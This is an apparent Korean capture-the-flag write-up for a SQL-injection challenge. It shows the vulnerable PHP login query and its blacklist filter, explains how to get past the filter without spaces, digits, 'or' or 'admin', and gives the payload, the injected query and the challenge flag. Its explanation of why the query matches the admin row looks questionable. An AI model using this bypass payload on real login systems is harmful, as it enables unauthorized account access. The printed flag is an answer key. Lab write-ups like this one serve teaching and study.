

# 08. SQLi_02

## 문제 설명
로그인 쿼리 결과의 `userid`가 `admin`이면 flag를 출력한다.
입력이 `waf()`를 거쳐 강한 블랙리스트로 필터링된다.

```php
$q = "SELECT userid FROM sqli2_table WHERE userid='$uid' AND userpw='$upw'";
...
if ($u === 'admin') { echo getenv('FLAG_SQLI_2'); }
```

## 필터 분석
```php
if(preg_match("/or|union|admin|\||\&|\d|-|\\|\x09|\x0b|\x0c|\x0d|\x20|\//",$t)) die('no hack..');
```
차단되는 것: `or`, `union`, `admin`, `|`, `&`, 모든 숫자(`\d`), `-`, `\`,
모든 공백류(탭·CR·스페이스 등), `/`. (소문자로 변환 후 검사하므로 대소문자 우회 불가)

즉 `admin` 문자열, 공백, 숫자, 주석(`--`, `/* */`), UNION/OR 를 모두 쓸 수 없다.

## 우회 아이디어
차단되지 않는 요소를 조합한다.
- **공백**: `LIKE` 뒤에 괄호를 쓰면 공백 없이 인자를 전달할 수 있다 → `like('adm%')`
- **`admin` 문자열**: `admin`을 직접 쓰지 않고 `'adm%'` 패턴으로 매칭한다.
- **주석 → `#`**: `#`은 필터에 없으므로 `AND userpw=...` 부분을 잘라낸다.

## 익스플로잇

### 페이로드 (`userid` 입력란)
```
'like('adm%')#
```
`userpw`는 아무 값이나 입력한다. 주입 결과 쿼리는 다음과 같이 되어
`adm`으로 시작하는 계정(admin)이 조회된다.
```sql
SELECT userid FROM sqli2_table WHERE userid='' like('adm%')#' AND userpw='x'
```

조회된 `userid`가 `admin`이 되어 flag가 출력된다.



## 플래그
```
flag{b715e24914d597b86ce5}
```
